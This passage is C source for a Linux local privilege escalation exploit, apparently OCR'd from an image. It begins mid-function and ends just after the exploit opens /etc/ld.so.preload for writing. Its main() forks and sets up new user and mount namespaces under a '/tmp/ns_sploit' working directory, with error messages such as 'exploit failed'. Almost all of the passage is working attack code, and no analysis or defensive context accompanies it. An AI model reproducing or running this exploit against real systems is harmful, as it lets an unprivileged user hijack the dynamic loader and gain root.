 ```c
umount("/tmp/ns_sploit/o");

}

int

main(int argc, char **argv)

{

int status, fd, lib;

pid_t wrapper, init;

int clone_flags = CLONE_NEWNS | SIGCHLD;

fprintf(stderr,"spawning threads\n");

if((wrapper = fork()) == 0) {

if(unshare(CLONE_NEWUSER) != 0)

fprintf(stderr, "failed to create new user namespace\n");

if((init = fork()) == 0) {

pid_t pid =

clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);

if(pid < 0) {

fprintf(stderr, "failed to create new mount namespace\n");

exit(-1);

}

waitpid(pid, &status, 0);

}

waitpid(init, &status, 0);

return 0;

}

usleep(300000);

wait(NULL);

fprintf(stderr,"child threads done\n");

fd = open("/etc/ld.so.preload",O_WRONLY);

if(fd == -1) {

fprintf(stderr,"exploit failed\n");

exit(-1);

}
```